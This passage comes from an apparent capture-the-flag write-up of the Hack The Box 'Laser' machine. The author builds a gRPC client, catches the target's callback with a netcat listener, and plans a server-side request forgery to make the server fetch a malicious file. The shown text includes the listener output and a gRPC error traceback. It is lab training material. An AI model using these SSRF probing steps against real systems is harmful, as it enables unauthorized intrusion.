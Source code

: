 
I then created a python client `grpc_client.py` to connect to port 9000 on the server and send my request. I set the feed URL to be my machine to test the connection.  Next I created a netcat listener to catch the return message.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ nc -lvnp 8099                                 
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.201] 55426
GET / HTTP/1.1
Host: 10.10.15.98:8099
User-Agent: FeedBot v1.0
Accept: */*
```

I got a connection back to my netcat listener, but I wasn't sure what to do with it at that point. However, since I was able to entice the server to send me connections with information I controlled I figured I could try to do a Server Side Request Forgery \(SSRF\) attack and maybe get it to pull a malicious file from my system.

```text
On successful data transmission you should see a message....
return service_pb2.Data(feed='Pushing feeds')
```

The PDF mentioned that I should get back the message `'Pushing feeds'`, but I did not get any messages back at all.  

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ python3 grpc_client.py                                                                          1 ⨯
Traceback (most recent call last):
  File "grpc_client.py", line 15, in <module>
    test()
  File "grpc_client.py", line 12, in run
    response = stub.Feed(laser_pb2.Content(data=enc_message))
  File "/home/zweilos/.local/lib/python3.8/site-packages/grpc/_channel.py", line 923, in __call__
    return _end_unary_response_blocking(state, call, False, None)
  File "/home/zweilos/.local/lib/python3.8/site-packages/grpc/_channel.py", line 826, in _end_unary_response_blocking
    raise _InactiveRpcError(state)
grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
        status = StatusCode.UNKNOWN
        details = "Exception calling application: (7, 'Failed to connect to 10.10.15.98 port 8099: Connection refused')"
        debug_error_string = "{"created":"@1606012822.063558307","description":"Error received from peer ipv4:10.10.10.201:9000","file":"src/core/lib/surface/call.cc","file_line":1061,"grpc_message":"Exception calling application: (7, 'Failed to connect to 10.10.15.98 port 8099: Connection refused')","grpc_status":2}"
>
```

While doing some testing I forgot to start my listener, and got the above error message back since my computer refused the connection.  The verbose error message came in handy later.
